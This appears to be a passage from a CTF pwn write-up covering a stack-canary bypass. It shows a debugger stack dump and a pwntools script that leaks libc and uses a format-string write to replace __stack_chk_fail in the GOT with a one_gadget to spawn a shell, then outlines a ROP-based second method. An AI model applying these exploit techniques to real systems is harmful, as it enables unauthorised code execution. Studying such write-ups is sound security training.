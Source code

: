 ```sh
07:0038│-048    0x7fffffffdb98 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
08:0040│-040    0x7fffffffdba0 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
09:0048│-038    0x7fffffffdba8 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
0a:0050│-030    0x7fffffffdbb0 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
0b:0058│-028    0x7fffffffdbb8 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
0c:0060│-020    0x7fffffffdbc0 ◂— 'kaaaaaaalaaaaaaamaaaaaaan'
0d:0068│-018    0x7fffffffdbc8 ◂— 'laaaaaaamaaaaaaan'
0e:0070│-010    0x7fffffffdbd0 ◂— 'maaaaaaan'
0f:0078│-008    0x7fffffffdbd8 ◂— 0x49bd64e70914006e /* 'n' */
10:0080│ rbp    0x7fffffffdbe0 —▸ 0x7fffffffdc00 ◂— 0
11:0088│+008    0x7fffffffdbe8 —▸ 0x400c52 (main+67) ◂— mov eax, 0
```

We can see a part of our input `overflow` and `overwrite` a part of `canary` value. And we know that when the value of `canary` has changed `___stack_chk_fail` function will be called. So we'll take advantage of that with our string format to overwrite `___stack_chk_fail` to the address of `one gadget` and from there get the shell

```py
def method1():
    sla(b'> ', b'-16')

    ru(b'chosen: ')
    puts = u64(rl()[:-1] + b'\0\0')
    libc.address = puts - 0x84420
    one_gadget = libc.address + 0xe3b01
    slog('Puts',puts)
    slog('Libc base', libc.address)
    slog('One gadget', one_gadget)

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: one_gadget
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b'.')
    sa(b'> ',payload)
```

## Method 2

This one is a little bit complex, but I'll try my best to explain it more clearly. So the first thing we need to do is find a way to let the program `return to operation`. As I told you in `method 1`, we can use `Format String Bug` to overwrite `___stack_chk_fail` to `operation` function. With that when we change the value of `canary` we can make it `call operation`

Next, when we let the program run indefinitely while changing the value of the canary, we will no longer worry about the program ending when it finishes executing. And now we can continue with the address leak, and the 2 addresses we need to pay attention to here are `libc` and `stack address`. Why the stack address? Because we will put our `ROP` chain here and let the program return to it and execute the shell
